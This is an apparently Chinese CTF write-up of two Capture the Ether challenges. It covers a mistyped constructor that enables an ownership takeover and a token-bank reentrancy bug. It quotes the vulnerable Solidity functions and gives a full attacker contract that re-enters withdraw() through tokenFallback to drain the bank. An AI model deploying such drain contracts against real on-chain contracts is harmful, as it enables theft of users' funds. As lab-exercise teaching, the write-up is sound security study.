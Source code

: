 ###### [Assume ownership](https://capturetheether.com/challenges/miscellaneous/assume-ownership/)

这个挑战是老版本的问题，合约的初始化函数很容易写错，一旦写错就可以被别人调用。本合约的初始化函数写错了一个字母导致他人可以调用函数来提权，从而完成挑战。

###### [Token bank](https://capturetheether.com/challenges/miscellaneous/token-bank/)

这个合约涉及一个重入漏洞，token-bank合约在`withdraw()`时先和token合约交互再减少余额：

```solidity
function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);

        require(token.transfer(msg.sender, amount));
        balanceOf[msg.sender] -= amount;
```

而token合约的transfer逻辑中会去调用一个外部合约的回调函数：

```solidity
    function transfer(address to, uint256 value, bytes data) public returns (bool) {
        require(balanceOf[msg.sender] >= value);

        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
        emit Transfer(msg.sender, to, value);

        if (isContract(to)) {
            ITokenReceiver(to).tokenFallback(msg.sender, value, data);
        }
        return true;
    }
```

因此我们可以写一个包含`tokenFallback()`的攻击合约，在tokenFallback()中调用`withdraw()` ，以`withdraw() => transfer() => tokenfallback() => withdraw（）`的方式重入。由于余额减少的操作在`transfer（）`之后，因此重入时余额一直没有变过，只需在攻击合约的`tokenFallback()`逻辑里将代币余额全部抽干即可。

而在攻击前，用户需要先将代币提取到账户里，并转移给攻击合约，然后攻击合约将代币转给银行，才可以开始攻击。

```solidity
contract TokenBankAttacker {
    IChallenge private challenge;
    ISET private SET;
    constructor (address challengeAddress) {
        challenge = IChallenge(challengeAddress);
    }

    function tokenFallback(address from, uint256 value, bytes calldata data) external {
        if (data.length == 0 && challenge.token().balanceOf(address(challenge)) > 0) {
            uint256 myBalance = challenge.balanceOf(address(this));
            uint256 challengeBalance = challenge.token().balanceOf(address(challenge));
            uint256 balance = myBalance > challengeBalance ? challengeBalance : myBalance;
            challenge.withdraw(balance);
        }else{
            return;
        }
    }

    function attack() external payable {
        uint256 balance = challenge.token().balanceOf(address(this));
        challenge.token().transfer(address(challenge),balance);
        challenge.withdraw(balance);
        balance = challenge.token().balanceOf(address(this));
        challenge.token().transfer(msg.sender,balance);
        require(challenge.isComplete(), "challenge is not completed!");
    }
```